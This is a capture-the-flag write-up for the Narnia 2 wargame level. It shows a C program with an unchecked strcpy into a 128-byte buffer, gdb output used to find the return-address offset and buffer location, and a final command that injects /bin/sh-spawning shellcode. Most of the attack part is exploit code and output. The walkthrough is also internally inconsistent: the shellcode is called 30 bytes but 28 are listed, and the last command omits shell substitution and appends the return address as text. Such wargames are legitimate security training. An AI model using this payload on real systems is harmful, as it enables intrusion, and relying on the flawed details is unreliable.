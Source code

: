 # Narnia 2

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

So this one requires shellcode like the last one. However the code does not have
a special command that executes it for us. Or does it?!? How about that `return 0`?
We can use that to return into a custom function of our own such as one that
runs code that spawns a shellcode. But where do we put that code. Well in the buffer.
So the first task is seeing how much we need to overflow the return.

In gdb `disass main` to get the leave portion and set that as a break point:
```
0x0804848f <+68>:	call   0x8048300 <printf@plt>
0x08048494 <+73>:	add    esp,0x8
0x08048497 <+76>:	mov    eax,0x0
0x0804849c <+81>:	leave  
0x0804849d <+82>:	ret    
End of assembler dump.
(gdb) break *main+81
```

Note: May need to `set disassembly-flavor intel` to get that good intel syntax

```
(gdb) r $(python -c 'print "A" * 128 + "B"*4 + "C"*4 + "D"*4')
Starting program: /narnia/narnia2 $(python -c 'print "A" * 128 + "B"*4 + "C"*4 + "D"*4')

Breakpoint 1, 0x0804849c in main ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

The return address is at 0x43 word or the 'C' word. (0x43 == 'C')

Then in gdb lets see where buffer starts:

```
(gdb) x/40wx $esp-144
0xffffd5b0:	0x08048534	0xffffd5b8	0x41414141	0x41414141
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd610:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd620:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd630:	0x41414141	0x41414141	0x42424242	0x43434343
0xffffd640:	0x44444444	0xffffd600	0xffffd6e0	0x00000000
(gdb)
```

It starts at `0xffffd5b8` so that is our return address.

Now some math: we have `128+4=132` bytes to store our shellcode. So the shellcode is 30 bytes so we need a buffer over flow of 102 bytes.

```
+------------------+---------------------+------------------------+
|                  |                     |                        |
|     shellcode    |   buffer overflow   |   return to shellcode  |
|                  |                     |                        |
+------------------+---------------------+------------------------+
```


Now execute with  python command line.
```
$ ./narnia2 python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80" + "A"*102 + "0xffffd5b8"'
```
